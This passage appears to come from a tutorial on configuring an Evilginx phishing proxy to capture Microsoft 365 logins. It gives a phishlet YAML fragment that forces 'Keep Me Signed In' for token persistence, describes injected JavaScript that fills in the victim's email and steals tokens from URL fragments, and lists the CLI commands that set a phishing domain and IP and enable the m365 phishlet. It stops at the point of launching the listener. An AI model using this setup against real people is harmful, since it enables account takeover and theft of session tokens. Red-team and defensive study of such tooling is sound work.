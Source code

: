 #### Force POST Modifications
```yaml
force_post:
- path: '/kmsi'
  force:
  - {key: 'LoginOptions', value: '1'}
```
These modify POST body values (like "Keep Me Signed In" toggles) to ensure consistency and improve token persistence.

#### JS Injection
The phishlet also injects JavaScript to auto-fill the victim’s email, silently manipulate page elements, and steal tokens from URL fragments to make the phishing process seamless. It also includes Evilginx setup instructions, detection strategies, and a lot of other stuff.

### Configure and Run Evilginx

Fist create the phishlet in evilginx/phishlets
```bash
sudo vim phishlets/m365.yaml
```
_paste the phishlet content_

Start the Evilginx interface:

```bash
sudo ./evilginx
```
evilginx
Within the CLI:

```bash
config domain <YOUR_PHISHING_DOMAIN>
config ip <YOUR_ELASTIC_IP>
phishlets hostname <YOUR_PHISHING_DOMAIN>
phishlets enable m365
```
You should see:

```bash
[+] Phishlet 'm365' enabled.
```
![img_2.png](../assets/img/evilginx_config.png)

Then launch the listener:
